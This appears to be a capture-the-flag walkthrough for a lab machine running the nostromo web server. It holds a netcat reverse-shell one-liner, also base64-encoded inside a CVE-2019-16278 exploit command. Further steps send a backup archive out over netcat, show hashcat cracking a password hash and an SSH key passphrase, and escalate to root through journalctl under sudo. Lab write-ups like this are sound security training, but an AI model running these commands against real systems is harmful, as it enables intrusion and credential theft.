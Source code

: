 User Flag
----

1. Map ports and versions
2. nostromo 1.9.6
3. Searchsploit
4. CVE-2019-16278
5. Reverse shell
6. Go to `home/david/public_www`
7. Download Tar file
8. ssh2john
9. hashcat
10. ssh as david with id_rsa and password
11. User flag in `/home/david/user.txt`

Notes
----

## Reverse shell with CVE-2019-16278

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 4444 >/tmp/f" | base64
```

```shell
python3 CVE-2019-16278.py 10.10.10.165 80 'echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjEwLjE0LjExIDQ0NDQgPi90bXAvZg" | base64 --decode | sh'
```

## Find where to write

Best place is /tmp

```
find / -type d -writable
```

## Hashcat for password found on .htpasswd

Actually not used, but good to know

```shell

Session..........: hashcat
Status...........: Running
Hash.Mode........: 500 (md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5))
Hash.Target......: $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
Time.Started.....: Thu Feb 22 00:08:46 2024 (35 secs)
Time.Estimated...: Thu Feb 22 00:10:41 2024 (1 min, 20 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (../wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   124.7 kH/s (10.77ms) @ Accel:32 Loops:250 Thr:32 Vec:1
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 4347904/14344384 (30.31%)
Rejected.........: 0/4347904 (0.00%)Restore.Point....: 4347904/14344384 (30.31%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:750-1000
Candidate.Engine.: Device GeneratorCandidates.#1....: redskins127 -> rdbrules
Hardware.Mon.#1..: Temp: 49c Fan:  0% Util: 26% Core:1530MHz Mem:4001MHz Bus:16

$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:*********
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 500 (md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5))
Hash.Target......: $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
Time.Started.....: Thu Feb 22 00:08:46 2024 (1 min, 30 secs)
Time.Estimated...: Thu Feb 22 00:10:16 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (../wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   120.2 kH/s (11.86ms) @ Accel:32 Loops:250 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10790912/14344384 (75.23%)
Rejected.........: 0/10790912 (0.00%)
Restore.Point....: 10768384/14344384 (75.07%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:750-1000
Candidate.Engine.: Device Generator
Candidates.#1....: OVERCLOCKING11091984 -> NOV241968
Hardware.Mon.#1..: Temp: 53c Fan:  0% Util: 30% Core:1530MHz Mem:4001MHz Bus:16

Started: Thu Feb 22 00:08:45 2024
Stopped: Thu Feb 22 00:10:17 2024
```

## How to find the ssh file

The configuration file is in `/etc/nostromo/nhttpd.conf`

What is doing here is mapping the home of the user to the public_www directory

So user `david` has a home directory in `/home/david` and the public_www directory is `/home/david/public_www`

```
# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```

## Download the tar file

```
nc -lvnp 1337 > backup.tar.gz
```

```
nc 10.10.14.7 1337 < backup.tar.gz
```

## Crack the password

https://robertholdsworthsecurity.medium.com/how-to-crack-an-ssh-private-key-passphrase-ab7dd1583178

```
./hashcat -a 0 -m 22931 ../wordlists/users/ssh_david.txt ../wordlists/rockyou.txt
```

## SSH as david

```
ssh -i id_rsa david@<IP>
```

Root FLAG
----

With linpeas I found the following file which contains a bin which is being called with sudo

```
You own the script: /home/david/bin/server-stats.sh                                                                                                                                 
/usr/bin/gettext.sh 
```

So what we have to do is call it but without the `usr/bin/cat` and since is journalctl is going to open a `less` by default were we can use `https://gtfobins.github.io/gtfobins/journalctl/` to get root

### Links used
- https://gtfobins.github.io/gtfobins/journalctl/
- https://robertholdsworthsecurity.medium.com/how-to-crack-an-ssh-private-key-passphrase-ab7dd1583178
- https://nvd.nist.gov/vuln/detail/CVE-2019-16278
- https://nvd.nist.gov/vuln/detail/CVE-2021-3156
- https://askubuntu.com/questions/178521/how-can-i-decode-a-base64-string-from-the-command-line
- https://www.base64encode.org/
- https://hashcat.net/wiki/doku.php?id=example_hashes
- https://hashcat.net/wiki/doku.php?id=hashcat